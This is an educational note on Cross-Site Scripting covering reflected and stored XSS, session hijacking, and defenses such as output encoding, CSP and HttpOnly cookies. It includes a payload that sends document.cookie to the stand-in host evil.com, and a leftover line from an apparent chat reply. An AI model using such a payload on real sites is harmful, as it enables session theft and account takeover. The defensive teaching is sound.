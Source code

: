 > [!idea] Cross-Site Scripting (XSS)
>
> Cross-Site Scripting (XSS) is a type of web application vulnerability that **allows an attacker to inject malicious scripts into web pages** viewed by other users. These scripts can be used to **hijack user sessions, steal sensitive data, deface websites**, or perform other unauthorized actions.
>
> The core issue with XSS is the failure of the web application to properly sanitize user input before rendering it in the browser. This allows attackers to inject client-side scripts that execute in the victim's browser with the same privileges as the legitimate website.

> [!example] Reflected XSS
>
> Reflected XSS occurs **when a web application unsafely reflects user input back to the user's browser** without proper sanitization or validation.
>
> ```html
> <!-- vulnerable code -->
> <form\>
>   <input type="text" name="query">
>   <input type="submit" value="Search">
> </form>
>
> <!-- results page -->
> <p>You searched for: <span><!-- user input is inserted here --></span></p>
> ```
>
> An attacker can craft a malicious URL with an XSS payload in the query parameter:
>
> ```js
> https://example.com/search?query=<script>/*malicious code to steal cookies*/</script>
> ```
>
> The attacker can then trick the victim into visiting this URL, perhaps through a phishing email or malicious link. When the victim's browser requests this URL, the application unsafely renders the payload from the `query` parameter on the results page.
>
> Since the malicious script is reflected back to the victim's browser without sanitization, it gets executed when the results page loads. This allows the attacker to perform unauthorized actions within the application's context, such as stealing the victim's session cookie and potentially hijacking their account.

In this updated example:

1. The attacker crafts a malicious URL with an XSS payload in the query parameter.
2. The attacker tricks the victim into visiting this URL through social engineering tactics.
3. The application reflects the payload back to the victim's browser without sanitization.
4. The malicious script executes in the victim's browser, allowing the attacker to steal the victim's session cookie or perform other malicious actions.

Please let me know if this updated example accurately captures how Reflected XSS can be used to target victims by tricking them into visiting a crafted URL with a malicious payload.

> [!example] Stored XSS
>
> Stored XSS, also known as Persistent XSS, occurs when user input is stored on the server (e.g., in a database) and later rendered in web pages without proper sanitization.
>
> ```html
> <!-- vulnerable code -->
> <div>
>   <!-- user input from the database is inserted here -->
> </div>
>
> <!-- attack payload in the database -->
> <script>/*malicious code*/</script>
> ```
>
> When the web page loads the user input from the database, the malicious script will execute in the victim's browser. This type of XSS is more severe as the payload persists and can potentially impact any user viewing the vulnerable page.

> [!example] Session Hijacking with XSS
>
> One common attack enabled by XSS is session hijacking, where the attacker steals the victim's session cookie and impersonates them on the website.
>
> ```js
> // attack payload
> <script>
>   var cookie = document.cookie;
>   fetch('https://evil.com/steal', {
>     method: 'POST',
>     body: cookie
>   });
> </script>
> ```
>
> When the XSS payload executes, it sends the victim's session cookie to the attacker's server. The attacker can then use this cookie to hijack the victim's session and access their account or sensitive data.

> [!consider] Defending Against XSS
>
> Preventing XSS requires proper input sanitization and output encoding on the server-side. Here are some common defense strategies:
>
> - **Input Validation**: Sanitize all user input by removing or escaping potential script tags and other dangerous characters.
> - **Output Encoding**: Encode user input before rendering it in the browser, ensuring that special characters are treated as plain text.
> - **Content Security Policy (CSP)**: Implement a CSP to whitelist trusted sources for scripts and other resources, effectively blocking injected scripts from executing.
> - **HttpOnly Cookies**: Set the `HttpOnly` flag on session cookies to prevent client-side scripts from accessing them, mitigating session hijacking.
> - **User Education**: Train users to be cautious of suspicious links or emails that may lead to XSS attacks.

> [!consider] Preventing XSS in PHP
>
> In PHP, developers should use built-in functions like `htmlspecialchars()` and `strip_tags()` to sanitize user input before rendering it in web pages.
>
> ```php
> // vulnerable code
> echo "<p>Welcome, " . $_GET['name'] . "!</p>";
>
> // preventing XSS with htmlspecialchars()
> echo "<p>Welcome, " . htmlspecialchars($_GET['name']) . "!</p>";
>
> // preventing XSS with strip_tags()
> echo "<p>Welcome, " . strip_tags($_GET['name']) . "!</p>";
> ```
>
> By default, `htmlspecialchars()` converts special characters like `<`, `>`, and `&` into their respective HTML entities, preventing script injection. `strip_tags()` removes any HTML tags from the input, effectively neutralizing script tags.

> [!consider] Preventing Session Hijacking
>
> To prevent session hijacking, developers should implement the following security measures:
>
> - **HttpOnly Cookies**: Set the `HttpOnly` flag on session cookies to prevent client-side scripts from accessing them.
> - **Secure Cookies**: Use the `Secure` flag to ensure cookies are only transmitted over HTTPS, preventing eavesdropping on insecure connections.
> - **Regenerate Session IDs**: After successful authentication, regenerate the session ID to mitigate session fixation attacks.
> - **Short Session Timeouts**: Set short session timeouts to minimize the window of opportunity for hijacking.
> - **CSRF Protection**: Implement CSRF protection mechanisms to prevent unauthorized state changes.

> [!consider] Content Security Policy (CSP)
>
> A Content Security Policy (CSP) is an added layer of security that helps mitigate XSS attacks by whitelisting trusted sources for resources like scripts, styles, and images.
>
> ```html
> <!-- Example CSP header -->
> Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted.com
> ```
>
> In this example, the CSP only allows scripts from the website's origin (`'self'`) and the trusted `https://trusted.com` domain. Any injected scripts from untrusted sources will be blocked by the browser, effectively preventing XSS attacks.
>
> CSPs can be configured to enforce stricter policies, such as disabling inline scripts or eval()-based code execution, further reducing the attack surface for XSS.

This note covers the main concepts of Cross-Site Scripting (XSS), including reflected and stored XSS, session hijacking, and various defense mechanisms like input sanitization, output encoding, Content Security Policy (CSP), and secure cookie handling. Relevant examples and code snippets are provided to illustrate the key ideas.
